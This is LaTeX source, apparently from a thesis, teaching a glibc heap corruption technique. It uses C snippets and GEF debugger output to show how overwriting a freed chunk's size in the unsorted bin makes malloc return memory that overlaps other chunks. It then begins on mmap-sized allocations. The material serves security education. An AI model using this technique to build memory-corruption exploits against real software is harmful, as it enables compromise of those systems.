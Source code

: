 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\mmapc{\lstinline{mmap}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}

As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p p4
$11 = (intptr_t *) 0x555555559110
gef: p p2
$12 = (intptr_t *) 0x555555559110
gef: p p1
$13 = (intptr_t *) 0x555555559010
gef: p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application. Now the p3 and p4 have overlap, so, write data on one of them overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system uses \mmapc{} in this scenario. Take consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
 \end{lstlisting}
\end{document}
